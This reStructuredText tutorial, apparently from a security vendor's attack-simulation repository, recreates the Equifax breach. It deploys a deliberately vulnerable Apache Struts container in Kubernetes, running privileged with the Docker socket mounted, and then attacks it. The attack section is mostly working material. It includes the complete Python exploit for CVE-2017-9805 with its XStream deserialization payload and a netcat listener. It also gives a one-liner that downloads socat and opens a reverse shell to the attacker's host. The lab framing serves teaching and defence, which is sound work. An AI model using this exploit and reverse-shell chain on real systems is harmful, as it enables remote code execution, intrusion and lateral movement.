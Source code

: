 ========================
Struts Attack - Equifax
========================

The goal of this article is to simulate the Equifax attack which was carried out exploiting Apache Struts vulnerability.

Apache Struts is an open-source framework used to build Java web applications. The vulnerability is a remote code execution bug that affects the Jakarta Multipart parser.

In this attack, the front end is exploited and a reverse shell is created in the machine where struts is running. The adversary can exploit that machine - escalate privileges, spawn and terminate processes, move laterally, and get to the crown jewels.

There are 2 parts to this setup

1) Setup a container running vulnerable Apache struts in Kubernetes
2) Attack the container, exploit the vulnerability and establish a command and control

.. image:: https://raw.githubusercontent.com/araalinetworks/attacks/main/images/strutssetup.png
 :width: 650
 :alt: ssrf setup


Running the Vulnerable container in Kubernetes
==============================================

**Container:** 

We have already created a container with a vulnerable Apache Struts app and its present at - quay.io/araalinetworks/struts:latest

Yaml file for k8s
^^^^^^^^^^^^^^^^^^

::
   
    apiVersion: v1
    kind: Service
    metadata:
      name: kube-struts-svc
    spec:
      type: LoadBalancer
      ports:
        - port: 8080
      selector:
        app: kube-struts-pod
    ---
    apiVersion: apps/v1
    kind: Deployment
    metadata:
      name: kube-struts-pod
    spec:
      selector:
        matchLabels:
          app: kube-struts-pod
      replicas: 1
      template:
        metadata:
          labels:
            app: kube-struts-pod
        spec:
          containers:
            - name: kube-struts-pod
              image: quay.io/araalinetworks/struts:latest
              securityContext:
                privileged: true
              volumeMounts:
                - mountPath: /var/run/docker.sock
                  name: docker-sock
                  readOnly: false
                  #imagePullSecrets:
                  #- name: acr-secret
          restartPolicy: Always
          volumes:
            - name: docker-sock
              hostPath:
                path: /var/run/docker.sock


Save this as a yaml file - struts-deployment.yaml

Apply this file in your Kubernetes cluster in a specific namespace

.. code-block:: RST

    $ kubectl create ns struts
    $ kubectl apply -f struts-deployment.yaml -n struts

Check (1) if the pods are running, and (2) get the External IP of the exposed service

.. image:: https://raw.githubusercontent.com/araalinetworks/attacks/main/images/strutskubectlgetpodsvc.png
 :width: 650
 :alt: kubectl get pods

Now open a browser and check if the app is up and running, by logging into the external IP on port 8080
http://40.88.254.51:8080/super-app/orders/3

.. image:: https://raw.githubusercontent.com/araalinetworks/attacks/main/images/strutsfrontend.png
 :width: 650
 :alt: frond end of the app

If you see the screen above, Congratulations! we have completed the first part.


Setup a VM to attack the container
==================================

Make sure **python 3.6** is installed on the VM.

Open a vim editor and copy the python code below and save it as **attack42627.py** 

::
   
   
    # Exploit Title: Struts 2.5 - 2.5.12 REST Plugin XStream RCE
    # Google Dork: filetype:action
    # Date: 06/09/2017
    # Exploit Author: Warflop
    # Vendor Homepage: https://struts.apache.org/
    # Software Link: http://mirror.nbtelecom.com.br/apache/struts/2.5.10/struts-2.5.10-all.zip
    # Version: Struts 2.5 - Struts 2.5.12
    # Tested on: Struts 2.5.10
    # CVE : 2017-9805
    
    #!/usr/bin/env python3
    # coding=utf-8
    # *****************************************************
    # Struts CVE-2017-9805 Exploit
    # Warflop (http://securityattack.com.br/)
    # Greetz: Pimps & G4mbl3r
    # *****************************************************
    import requests
    import sys
    
    def exploration(command):
    
    	exploit = '''
    				<map>
    				<entry>
    				<jdk.nashorn.internal.objects.NativeString>
    				<flags>0</flags>
    				<value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
    				<dataHandler>
    				<dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
    				<is class="javax.crypto.CipherInputStream">
    				<cipher class="javax.crypto.NullCipher">
    				<initialized>false</initialized>
    				<opmode>0</opmode>
    				<serviceIterator class="javax.imageio.spi.FilterIterator">
    				<iter class="javax.imageio.spi.FilterIterator">
    				<iter class="java.util.Collections$EmptyIterator"/>
    				<next class="java.lang.ProcessBuilder">
    				<command>
    				<string>/bin/sh</string><string>-c</string><string>'''+ command +'''</string>
    				</command>
    				<redirectErrorStream>false</redirectErrorStream>
    				</next>
    				</iter>
    				<filter class="javax.imageio.ImageIO$ContainsFilter">
    				<method>
    				<class>java.lang.ProcessBuilder</class>
    				<name>start</name>
    				<parameter-types/>
    				</method>
    				<name>foo</name>
    				</filter>
    				<next class="string">foo</next>
    				</serviceIterator>
    				<lock/>
    				</cipher>
    				<input class="java.lang.ProcessBuilder$NullInputStream"/>
    				<ibuffer/>
    				<done>false</done>
    				<ostart>0</ostart>
    				<ofinish>0</ofinish>
    				<closed>false</closed>
    				</is>
    				<consumed>false</consumed>
    				</dataSource>
    				<transferFlavors/>
    				</dataHandler>
    				<dataLen>0</dataLen>
    				</value>
    				</jdk.nashorn.internal.objects.NativeString>
    				<jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/>
    				</entry>
    				<entry>
    				<jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
    				<jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
    				</entry>
    				</map>
    				'''
    
    
    	url = sys.argv[1]
    
    	headers = {'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:54.0) Gecko/20100101 Firefox/54.0',
    			'Content-Type': 'application/xml'}
    
    	request = requests.post(url, data=exploit, headers=headers)
    	print (request.text)
    
    if len(sys.argv) < 3:
    	print ('CVE: 2017-9805 - Apache Struts2 Rest Plugin Xstream RCE')
    	print ('[*] Warflop - http://securityattack.com.br')
    	print ('[*] Greatz: Pimps & G4mbl3r')
    	print ('[*] Use: python struts2.py URL COMMAND')
    	print ('[*] Example: python struts2.py http://sitevulnerable.com/struts2-rest-showcase/orders/3 id')
    	exit(0)
    else:
    	exploration(sys.argv[2])



Now open two terminals, on one terminal type 

.. code-block:: RST
    
   $ sudo nc -nvlp 12345

Other terminal type

.. code-block:: XML

   $ python3 strutattack/attack42627.py http://40.88.254.51:8080/super-app/orders/3 'wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:"ash -li",pty,stderr,setsid,sigint,sane tcp:104.41.3.199:12345'    


Here, 40.88.254.51 is the IP of the struts app.

and 104.41.3.199:12345 is the IP of the machine from which you are carrying out the attack.
